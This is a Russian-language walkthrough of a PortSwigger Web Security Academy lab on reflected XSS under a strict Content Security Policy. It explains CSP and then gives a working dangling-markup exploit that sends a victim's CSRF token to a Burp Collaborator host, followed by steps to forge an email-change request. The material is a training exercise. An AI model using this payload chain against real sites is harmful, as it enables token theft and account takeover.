

# Reflected XSS protected by very strict CSP, with dangling markup attack

## Theory

<h3>Что такое CSP (политика безопасности контента)?</h3>

CSP — это механизм безопасности браузера, целью которого является смягчение последствий XSS и некоторых других атак. Он работает, ограничивая ресурсы (такие как скрипты и изображения), которые может загружать страница, и ограничивая возможность обрамления страницы другими страницами.

Чтобы включить CSP, ответ должен включать заголовок ответа HTTP с именем Content-Security-Policy со значением, содержащим политику. Сама политика состоит из одной или нескольких директив, разделенных точкой с запятой.

<h3>Защита от XSS-атак с помощью CSP</h3>

Следующая директива позволит загружать скрипты только из того же источника, что и сама страница:
```
script-src 'self'
```

Следующая директива разрешает загрузку скриптов только из определенного домена:
```
script-src https://scripts.normal-website.com
```

Следует соблюдать осторожность при разрешении сценариев из внешних доменов. Если у злоумышленника есть какой-либо способ контролировать контент, который обслуживается из внешнего домена, он может провести атаку. Например, сетям доставки контента (CDN), которые не используют URL-адреса для каждого клиента, такие как ajax.googleapis.com, нельзя доверять, поскольку третьи стороны могут получить контент на свои домены.

Помимо внесения в белый список определенных доменов, политика безопасности контента также предоставляет два других способа указания доверенных ресурсов: одноразовые номера и хэши:
* Директива CSP может указывать одноразовый номер (случайное значение), и это же значение должно использоваться в теге, загружающем сценарий. Если значения не совпадают, скрипт не будет выполняться. Чтобы быть эффективным в качестве элемента управления, одноразовый номер должен безопасно генерироваться при каждой загрузке страницы и не быть угаданным злоумышленником.
* Директива CSP может указывать хэш содержимого доверенного скрипта. Если хэш фактического скрипта не соответствует значению, указанному в директиве, то скрипт не будет выполняться. Если содержимое скрипта когда-либо изменится, то вам, конечно же, потребуется обновить хеш-значение, указанное в директиве.

CSP довольно часто блокирует такие ресурсы, как скрипт. Однако многие CSP разрешают запросы изображений. Это означает, что вы часто можете использовать элементы img для выполнения запросов к внешним серверам, например, для раскрытия токенов CSRF.

Некоторые браузеры, такие как Chrome, имеют встроенное средство устранения висячей разметки, которое блокирует запросы, содержащие определенные символы, такие как необработанные, незакодированные новые строки или угловые скобки.

Некоторые политики являются более строгими и запрещают все формы внешних запросов. Однако все еще можно обойти эти ограничения, вызвав некоторое взаимодействие с пользователем. Чтобы обойти эту форму политики, вам нужно внедрить элемент HTML, который при щелчке будет хранить и отправлять все, что содержится во внедренном элементе, на внешний сервер.

## Writeup

* Имеющиеся данные: 
    * Данные нашего пользователя: wiener:peter

Главная страница:


Логинимся с имеющимися данными.


Перейдем на exploit server.


Запустим Burp Collaborator Client.


В поле Body впишем наш экплоит. Код эксплоита:
```
<script>
if(window.name) {
	new Image().src='//BURP-COLLABORATOR-SUBDOMAIN?'+encodeURIComponent(window.name);
	} else {
		location = 'https://YOUR-LAB-ID.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>
```

Код экплоита без URL-кодировки:
```
<script>
if(window.name) {
	new Image().src='//twtylpjxh91jnpejwc4dmw0jwa21qq.burpcollaborator.net?' encodeURIComponent(window.name);
	} else {
		location = 'https://0af200d103aad34cc02204dc00ca0014.web-security-academy.net/my-account?email="><a href="https://exploit-0aa700e20343d3b5c008043101d70063.web-security-academy.net/exploit">Click me</a><base target='';
}
</script>
```


Отправляем эксплоит жертве. Переходим в Burp Collaborator Client. В одном из запросов мы можем найти CSRF токен. Скопируем его.


Перейдем в аккаунт и отправим запрос на смену почты. Перехватим его.


В меню иструментов найдем "Generate CSRF PoC".


В слевой части, в запросе изменим значение CSRF токена на то, которое мы скопировали ранее.


В панели Options включим опцию "Include auto-submit script"


Затем нажмем на кнопку "Regenerate". Скопируем HTML и вставим в поле body в exploit server. Отправляем жертве.


Получаем ответ от сервера.




